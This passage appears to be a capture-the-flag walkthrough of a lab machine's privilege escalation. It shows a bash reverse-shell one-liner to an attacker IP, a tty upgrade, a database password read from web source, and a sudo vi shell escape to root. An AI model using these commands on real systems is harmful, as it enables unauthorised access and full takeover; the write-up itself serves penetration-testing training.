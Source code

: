 
### &#9702; Privilege Escalation


This can be used to execute a shell  reverse shell .
``` shell 
bash  -c  'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image87.png"></div>


Let's upgrade to a tty shell  and continue enumeration.
``` shell 
SHELL=/bin/bash script -q /dev/null
```
Let’s have a look to the source code of dashboard.php in /var/www/html.

The code reveals the postgres password to be: **P@s5w0rd!**

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image88.png"></div>


This password can be used to view the user's sudo privileges.

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image89.png"></div>


The user is allowed to edit the configuration **/etc/postgresql/11/main/pg_hba.conf** using vi. 
This can be leveraged to gain a root shell and access root.txt.
Once opened the file in “*Vi*” editor with sudo, we can try to spawn a TTY shell from within vi by typing one of the following command (link):
•	: ! bash  
•	: set shell=/bin/bash:shell
•	: ! /bin/bash
